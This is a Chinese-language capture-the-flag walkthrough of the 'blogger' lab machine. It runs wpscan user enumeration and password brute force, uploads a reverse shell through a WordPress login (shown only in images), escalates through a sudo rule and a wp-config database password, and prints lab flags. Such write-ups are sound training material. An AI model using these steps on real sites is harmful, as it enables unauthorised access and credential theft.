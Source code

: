 ```yaml
---
{"dg-publish":true,"title":"vulnxy_blogger","tags":["blog"],"dg-path":"安全/靶机/vulnxy_blogger.md","permalink":"/安全/靶机/vulnxy_blogger/","dgPassFrontmatter":true}
---
```


# 主机发现


```sh
┌──(root㉿kali)-[~/sharedir]
└─# nmap -sT -min-rate 10000 -p- 192.168.124.28
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 06:36 EST
Nmap scan report for 192.168.124.28 (192.168.124.28)
Host is up (0.32s latency).
Not shown: 39489 closed tcp ports (conn-refused), 26044 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:27:4C:4B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 80.69 seconds

```


# web渗透


```sh
┌──(root㉿kali)-[~/sharedir]
└─# dirb http://192.168.124.28/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Feb  6 06:46:51 2025
URL_BASE: http://192.168.124.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.124.28/ ----
+ http://192.168.124.28/index.html (CODE:200|SIZE:10701)
+ http://192.168.124.28/server-status (CODE:403|SIZE:279)
==> DIRECTORY: http://192.168.124.28/wordpress/

...


```


应该就是wordpress

用插件枚举一下用户

```sh
wpscan --url http://192.168.124.28/wordpress -e u
```
![Pasted image 20250206200358.png](/img/user/picture/Pasted%20image%2020250206200358.png)
```txt
peter
```

直接爆破密码试试

```sh
wpscan --url http://192.168.124.28/wordpress -U peter -P /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250206201332.png](/img/user/picture/Pasted%20image%2020250206201332.png)

`Username: peter, Password: peterpan`


我们就可以登陆进去了
//别忘了改一下`/etc/hosts`

![Pasted image 20250206202353.png](/img/user/picture/Pasted%20image%2020250206202353.png)

可以直接尝试上传一个反弹shell文件

![Pasted image 20250206202610.png](/img/user/picture/Pasted%20image%2020250206202610.png)

![Pasted image 20250206202704.png](/img/user/picture/Pasted%20image%2020250206202704.png)

![Pasted image 20250206202717.png](/img/user/picture/Pasted%20image%2020250206202717.png)


就已经上传成功了

![Pasted image 20250206202823.png](/img/user/picture/Pasted%20image%2020250206202823.png)




# 提权-1

```sh
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
Matching Defaults entries for www-data on blogger:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on blogger:
    (blog) NOPASSWD: /usr/bin/dash
```


![Pasted image 20250206203238.png](/img/user/picture/Pasted%20image%2020250206203238.png)


```sh
blog@blogger:~$ cat user.txt
cat user.txt
507ed5c488064e5ae9d2007dd2b50b53
```




# 提权-2
//之后就不知道怎么提权root了
看了WP之后发现wordpress的配置文件我们没看

```sh
ls -al
total 48
drwxr-xr-x 12 root     root     4096 Aug 16  2023 .
drwxr-xr-x 18 root     root     4096 Aug 16  2023 ..
drwxr-xr-x  2 root     root     4096 Feb  6 12:43 backups
drwxr-xr-x 10 root     root     4096 Aug 16  2023 cache
drwxr-xr-x 26 root     root     4096 Aug 16  2023 lib
drwxrwsr-x  2 root     staff    4096 Jun 30  2022 local
lrwxrwxrwx  1 root     root        9 Jan 15  2023 lock -> /run/lock
drwxr-xr-x  9 root     root     4096 Feb  6 12:35 log
drwxrwsr-x  2 root     mail     4096 Jan 15  2023 mail
drwxr-xr-x  2 root     root     4096 Jan 15  2023 opt
lrwxrwxrwx  1 root     root        4 Jan 15  2023 run -> /run
drwxr-xr-x  4 root     root     4096 Jan 15  2023 spool
drwxrwxrwt  2 root     root     4096 Feb  6 12:35 tmp
drwx------  3 www-data www-data 4096 Dec 20 11:27 www

```
c，还只能www-data才能看

```txt
/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'm3g@Bl0g123' );

```


![Pasted image 20250206205312.png](/img/user/picture/Pasted%20image%2020250206205312.png)


```
cat root.txt
1a1096b5c68cbefc74290f70d7ccb696
```



# 总结

一个基础的wordpress的渗透
提权关键点在于配置文件












